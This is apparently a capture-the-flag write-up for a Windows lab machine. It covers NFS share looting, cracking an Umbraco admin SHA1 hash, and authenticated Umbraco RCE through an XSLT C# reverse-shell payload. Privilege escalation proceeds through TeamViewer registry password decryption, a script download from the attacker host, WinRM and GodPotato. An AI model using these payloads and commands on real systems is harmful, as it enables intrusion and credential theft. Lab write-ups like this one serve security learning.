


# Attack Chain

```
└─► NFS anonymous export (/site_backups)
	└─► Mount share → loot web.config + Umbraco.sdf
	    └─► strings Umbraco.sdf → admin SHA1 hash (b8be16af...)
	        └─► hashcat -m 100 → admin@htb.local:baconandcheese
	            └─► Umbraco 7.12.4 back-office login
	                └─► CVE-2019-7256 (authenticated RCE via XSLT/msxsl:script C#)
	                    └─► Reverse shell as iis apppool (foothold + user flag)
	                        └─► TeamViewer v7 → CVE-2019-18988
		                        └─► reg query SecurityPasswordAES → AES decrypt
			                        └─► password reuse → WinRM administrator (root)
				                        └─► [Bonus] SeImpersonatePrivilege enabled
				                            └─► GodPotato → nt authority\system
```

# Summary

- [Enumeration](#enumeration)
- [FTP](#ftp)
- [Web](#web)
- [NFS](#nfs)
	- [web.config](#webconfig)
	- [Umbraco config file](#umbraco-config-file)
	- [Crack admin's hash](#crack-admins-hash)
- [Umbraco RCE](#umbraco-rce)
- [Privilege Escalation](#privilege-escalation)
	- [Manual exploitation](#manual-exploitation)
	- [Automatic](#automatic)
	- [Shell as administrator](#shell-as-administrator)
- [Bonus](#bonus)

---
# Enumeration

We first scan the target with `nmap` and look which ports are open.

```
nmap -sVC 10.129.230.172 -oA scan/remote

Starting Nmap 7.93 ( https://nmap.org ) at 2026-07-07 12:21 CEST
Nmap scan report for 10.129.230.172
Host is up (0.055s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2026-07-07T10:22:42
|_  start_date: N/A
```

> [!NOTE]
> **Observations**
> - FTP is open and accepts anonymous login
> - Website on port 80
> - NFS share on port 2049

# FTP

Let's see what FTP contains.

```
ftp 10.129.230.172
Connected to 10.129.230.172.
220 Microsoft FTP Service
Name (10.129.230.172:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
ftp> ls -la
ftp> pw
```

Unfortunately, nothing can be found.

# Web

Let's head onto the website now.



We are landing on the website of **Acme**.
Let's fuzz the directories with `ffuf`.

```
ffuf -c -w `fzf-wordlists` -u "http://10.129.230.172/FUZZ"

install       [Status: 302, Size: 126, Words: 6, Lines: 4, Duration: 284ms]
blog          [Status: 200, Size: 5001, Words: 1249, Lines: 138, Duration: 284ms]
home          [Status: 200, Size: 6703, Words: 1807, Lines: 188, Duration: 251ms]
products      [Status: 200, Size: 5338, Words: 1307, Lines: 130, Duration: 82ms]
product       [Status: 500, Size: 3420, Words: 774, Lines: 81, Duration: 1106ms]
contact       [Status: 200, Size: 7880, Words: 828, Lines: 125, Duration: 3085ms]
intranet      [Status: 200, Size: 3313, Words: 683, Lines: 117, Duration: 2157ms]
people        [Status: 200, Size: 6749, Words: 2109, Lines: 168, Duration: 3173ms]
umbraco       [Status: 200, Size: 4040, Words: 710, Lines: 96, Duration: 1841ms]
master        [Status: 500, Size: 3420, Words: 774, Lines: 81, Duration: 562ms]
about-us      [Status: 200, Size: 5441, Words: 1232, Lines: 162, Duration: 3498ms]
person        [Status: 200, Size: 2741, Words: 503, Lines: 82, Duration: 3487ms]
```

We have many entries, the most interesting is `/umbraco` that redirect us to a login page.


But we don't have credentials, and the form doesn't look vulnerable to a bypass.

# NFS

Since we ran into a dead end on the website, we have one more port to enumerate.

Let's list the available NFS shares.

```
showmount -e 10.129.*.*
Export list for 10.129.230.172:
/site_backups (everyone)
```

We have access to `/site_backups`, let's mount it on our machine.

```
mkdir /mnt/share
mount -o rw 10.129.*.*:/site_backups /mnt/share
```

We have several interesting files inside that contain valuable information.

### web.config

We have the `web.config` file that display the machine key which can be used for deserialization attacks.

```
cat web.config

<SNIP>

 <machineKey validationKey="2D56EBC66956E070A0B01081434DA66BEDF1C7241EC4BEEC7FAB3E6A0ABDE4F5" decryptionKey="5679E8E158BC850DE4A7172AA5F651D357EB4A5343A5DD03F9F9B022B5EEAB69" validation="HMACSHA256" decryption="AES" /></system.web>
 
<SNIP>
```

### Umbraco config file

And we have the config file of **Umbraco** that should store the user's hashes.

```
strings Umbraco.sdf | head -n 10

Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
<SNIP>
```

> [!TIP]
> **admin's hash retrieved**
> `b8be16afba8c314ad33d812f22a04991b90e2aaa`

### Crack admin's hash

We can use `hashcat` to crack it.

```
echo 'b8be16afba8c314ad33d812f22a04991b90e2aaa' > hash.txt
```

It's a **SHA-1** hash, so we will use `-m 100` to specify that.

```
hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt

<SNIP>

b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese

<SNIP>
```

> [!TIP]
> **Hash Cracked - Credentials obtained**
> `admin@htb.local` : `baconandcheese`

# Umbraco RCE

We can now get back to the **Umbraco** login page and login with these credentials.

We can also find the version used under our username.


After a quick research, we found out that this version is vulnerable to an **Authenticated Remote Code Execution**

We can use that [script](https://github.com/noraj/Umbraco-RCE) to exploit, it's the easiest one, but it has been released after the box came out.
Or we can use this [one](https://www.exploit-db.com/exploits/46153), which is the intended one.

We need to modify the script like the following to gain a reverse shell on the target.

```
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "powershell -e <base64>"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';
```

After executing the script, we should get a connection back on our listener.

```
penelope -i tun0 -p 6767

<SNIP>

PS C:\windows\system32\inetsrv>
```

The user flag can be found under `C:\Users\Public\Desktop`.

# Privilege Escalation

Now that we have a foothold on the target system, we can look for Privilege Escalation vectors.

Under `C:\Program Files (x86)`, we notice that **TeamViewer** is installed on the target.

```
PS C:\Program Files (x86)> ls


    Directory: C:\Program Files (x86)


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/15/2018   3:28 AM                Common Files
d-----        9/15/2018   5:06 AM                Internet Explorer
d-----        2/23/2020   2:19 PM                Microsoft SQL Server
d-----        2/23/2020   2:15 PM                Microsoft.NET
d-----        2/19/2020   3:11 PM                MSBuild
d-----        2/19/2020   3:11 PM                Reference Assemblies
d-----        2/20/2020   2:14 AM                TeamViewer
d-----        9/15/2018   5:05 AM                Windows Defender
d-----        9/15/2018   3:19 AM                Windows Mail
d-----       10/29/2018   6:39 PM                Windows Media Player
d-----        9/15/2018   3:19 AM                Windows Multimedia Platform
d-----        9/15/2018   3:28 AM                windows nt
d-----       10/29/2018   6:39 PM                Windows Photo Viewer
d-----        9/15/2018   3:19 AM                Windows Portable Devices
d-----        9/15/2018   3:19 AM                WindowsPowerShell
```

And that the version used is **Version7**

```
PS C:\Program Files (x86)\TeamViewer> ls


    Directory: C:\Program Files (x86)\TeamViewer


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/27/2020  10:35 AM                Version7
```

That version is known to be vulnerable to [CVE-2019-18988](https://www.cvedetails.com/cve/CVE-2019-18988/).

TeamViewer (up to and including version 14) uses a **hardcoded AES key and IV shared across every installation**. Since this key is publicly known, anyone able to read the encrypted values stored in the registry can decrypt them offline to recover the stored passwords in cleartext.

We have multiple exploits to perform the attack, we have the [manual](https://github.com/mr-r3b00t/CVE-2019-18988/blob/master/manual_exploit.bat) one which consist of querying the registry key and then decrypt the data using [CyberChef](https://gchq.github.io/CyberChef).

Or there is the [automatic]( https://github.com/S3cur3Th1sSh1t/TeamViewerDecrypt) one

Let's show both versions.

### Manual exploitation

First we query `HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7` and retrieve the **SecurityPasswordAES**'s blob.

```
reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
    StartMenuGroup    REG_SZ    TeamViewer 7
    InstallationDate    REG_SZ    2020-02-20
    InstallationDirectory    REG_SZ    C:\Program Files (x86)\TeamViewer\Version7
    Always_Online    REG_DWORD    0x1
    Security_ActivateDirectIn    REG_DWORD    0x0
    Version    REG_SZ    7.0.43148
    ClientIC    REG_DWORD    0x11f25831
    PK    REG_BINARY    BFAD2AEDB6C89AE0A0FD0501A0C5B9A5C0D957A4CC57C1884C84B6873EA03C069CF06195829821E28DFC2AAD372665339488DD1A8C85CDA8B19D0A5A2958D86476D82CA0F2128395673BA5A39F2B875B060D4D52BE75DB2B6C91EDB28E90DF7F2F3FBE6D95A07488AE934CC01DB8311176AEC7AC367AB4332ABD048DBFC2EF5E9ECC1333FC5F5B9E2A13D4F22E90EE509E5D7AF4935B8538BE4A606AB06FE8CC657930A24A71D1E30AE2188E0E0214C8F58CD2D5B43A52549F0730376DD3AE1DB66D1E0EBB0CF1CB0AA7F133148D1B5459C95A24DDEE43A76623759017F21A1BC8AFCD1F56FD0CABB340C9B99EE3828577371B7ADA9A8F967A32ADF6CF062B00026C66F8061D5CFF89A53EAE510620BC822BC6CC615D4DE093BC0CA8F5785131B75010EE5F9B6C228E650CA89697D07E51DBA40BF6FC3B2F2E30BF6F1C01F1BC2386FA226FFFA2BE25AE33FA16A2699A1124D9133F18B50F4DB6EDA2D23C2B949D6D2995229BC03507A62FCDAD55741B29084BD9B176CFAEDAAA9D48CBAF2C192A0875EC748478E51156CCDD143152125AE7D05177083F406703ED44DCACCD48400DD88A568520930BED69FCD672B15CD3646F8621BBC35391EAADBEDD04758EE8FC887BACE6D8B59F61A5783D884DBE362E2AC6EAC0671B6B5116345043257C537D27A8346530F8B7F5E0EBACE9B840E716197D4A0C3D68CFD2126E8245B01E62B4CE597AA3E2074C8AB1A4583B04DBB13F13EB54E64B850742A8E3E8C2FAC0B9B0CF28D71DD41F67C773A19D7B1A2D0A257A4D42FC6214AB870710D5E841CBAFCD05EF13B372F36BF7601F55D98ED054ED0F321AEBA5F91D390FF0E8E5815E6272BA4ABB3C85CF4A8B07851903F73317C0BC77FA12A194BB75999319222516
    SK    REG_BINARY    F82398387864348BAD0DBB41812782B1C0ABB9DAEEF15BC5C3609B2C5652BED7A9A07EA41B3E7CB583A107D39AFFF5E06DF1A06649C07DF4F65BD89DE84289D0F2CBF6B8E92E7B2901782BE8A039F2903552C98437E47E16F75F99C07750AEED8CFC7CD859AE94EC6233B662526D977FFB95DD5EB32D88A4B8B90EC1F8D118A7C6D28F6B5691EB4F9F6E07B6FE306292377ACE83B14BF815C186B7B74FFF9469CA712C13F221460AC6F3A7C5A89FD7C79FF306CEEBEF6DE06D6301D5FD9AB797D08862B9B7D75B38FB34EF82C77C8ADC378B65D9ED77B42C1F4CB1B11E7E7FB2D78180F40C96C1328970DA0E90CDEF3D4B79E08430E546228C000996D846A8489F61FE07B9A71E7FB3C3F811BB68FDDF829A7C0535BA130F04D9C7C09B621F4F48CD85EA97EF3D79A88257D0283BF2B78C5B3D4BBA4307D2F38D3A4D56A2706EDAB80A7CE20E21099E27481C847B49F8E91E53F83356323DDB09E97F45C6D103CF04693106F63AD8A58C004FC69EF8C506C553149D038191781E539A9E4E830579BCB4AD551385D1C9E4126569DD96AE6F97A81420919EE15CF125C1216C71A2263D1BE468E4B07418DE874F9E801DA2054AD64BE1947BE9580D7F0E3C138EE554A9749C4D0B3725904A95AEBD9DACCB6E0C568BFA25EE5649C31551F268B1F2EC039173B7912D6D58AA47D01D9E1B95E3427836A14F71F26E350B908889A95120195CC4FD68E7140AA8BB20E211D15C0963110878AAB530590EE68BF68B42D8EEEB2AE3B8DEC0558032CFE22D692FF5937E1A02C1250D507BDE0F51A546FE98FCED1E7F9DBA3281F1A298D66359C7571D29B24D1456C8074BA570D4D0BA2C3696A8A9547125FFD10FBF662E597A014E0772948F6C5F9F7D0179656EAC2F0C7F
    LastMACUsed    REG_MULTI_SZ    \0A2DEAD1891A9
    MIDInitiativeGUID    REG_SZ    {514ed376-a4ee-4507-a28b-484604ed0ba0}
    MIDVersion    REG_DWORD    0x1
    ClientID    REG_DWORD    0x6972e4aa
    CUse    REG_DWORD    0x1
    LastUpdateCheck    REG_DWORD    0x659d58d6
    UsageEnvironmentBackup    REG_DWORD    0x1
    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
    MultiPwdMgmtIDs    REG_MULTI_SZ    admin
    MultiPwdMgmtPWDs    REG_MULTI_SZ    357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77
    Security_PasswordStrength    REG_DWORD    0x3

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\AccessControl
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\DefaultSettings
```

Then we got to [CyberChef](https://gchq.github.io/CyberChef) and enter the values mentioned inside the Github repository.

We should be able to decrypt the retrieved blob.




### Automatic

First we transfer the Powershell into the target, and then we import the script so we are able to run the command `TeamViewerDecrypt`, which gives us directly the passwords in clear text.

```
PS C:\Users\Public\Desktop> wget http://10.10.*.*/TeamViewerDecrypt.ps1 -o TeamViewerDecrypt.ps1
PS C:\Users\Public\Desktop> . ./TeamViewerDecrypt.ps1
PS C:\Users\Public\Desktop> TeamViewerDecrypt
!R3m0te!
```


### Shell as administrator

Now that we have the password, let's check if it belongs to  `administrator`.

```
nxc smb "10.129.*.*" -u administrator -p '!R3m0te!' 

SMB         10.129.*.*  445    REMOTE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:None)
SMB         10.129.*.*  445    REMOTE           [+] remote\administrator:!R3m0te! (admin)
```

It does, we can connect over WinRM as `administrator`.

```
evil-winrm -u administrator -p '!R3m0te!' -i 10.129.230.172

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```


> [!TIP]
> **Machine Rooted**

# Bonus

Besides the **TeamViewer** CVE, we have one more vector to exploit. It consists of abusing `SeImpersonatePrivilege`.

```
PS C:\Users\Public\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

There are various techniques to abuse it such as **PrintSpoofer**, **Potato** suite, etc...

Here, I chose to use [GodPotato](https://github.com/BeichenDream/GodPotato) to show the escalation.

After transfering the file to the target, we are able to run commands as `SYSTEM`.

```
GodPotato -cmd "cmd /c whoami"

<SNIP>

nt authority\system
```